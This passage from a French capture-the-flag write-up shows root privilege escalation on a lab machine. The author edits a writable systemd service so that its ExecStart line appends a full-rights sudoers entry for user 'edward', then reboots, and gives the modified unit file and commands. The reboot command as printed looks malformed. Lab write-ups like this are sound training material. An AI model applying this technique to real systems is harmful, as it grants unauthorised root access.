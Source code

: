 Alors pourquoi ce fichier la et pas un autre? Nous avons le droit d’exécuter la commande reboot en tant que root sur la machine. En rebootant la machine, la partie “**ExecStart**” va donc s’exécuter (comme son nom l’indique) quand la machine aura redémarré. Nous pouvons donc rentrer n’importe quelle commande. 

[Privilege Escalation: Leveraging misconfigured systemctl permissions](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)

Après avoir essayé plusieurs payloads comme un reverse-shell ou bien de créer un fichier avec des droits SUID, rien ne fonctionnait (peut-être que je m’y suis mal pris). J’ai réussi à créer un fichier du nom de “root.sh” en modifiant donc la ligne “ExecStart”, mais un message d’erreur me disant que je n’avais pas l’autorisation d’exécuter tel ou tel commande en tant que root m’empêchait d’exécuter le script en question. 

![Untitled 15](https://user-images.githubusercontent.com/68467919/210108040-4b55f5a0-5525-4e0c-956c-4efab85cef38.png)

J’ai donc décidé de me pencher vers ce payload qui va nous permettre d’exécuter n’importe quoi en tant que root que j’ai trouvé ici : 

[PayloadsAllTheThings/Linux - Privilege Escalation.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#writable-files)

```bash
echo "edward ALL=(ALL:ALL) ALL">>/etc/sudoers
```

Donc pour finaliser le payload, voici ce que j’ai modifié à l’aide de *vi* dans le fichier **zeno-monitoring.service**.

```bash
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "echo 'edward ALL=(ALL:ALL) ALL'>>/etc/sudoers"

[Install]
WantedBy=multi-user.target
```

Ensuite, il suffit de faire la commande suivante pour reboot la machine et au bout de quelques minutes j’ai pu me reconnecter en SSH à la machine et j’avais bien le droit d’exécuter toutes les commandes.

```bash
sudo -u /usr/sbin/reboot
```

![image](https://user-images.githubusercontent.com/68467919/210108520-ca92a636-b94d-4123-bebd-7524898d2386.png)

ROOTED !!!
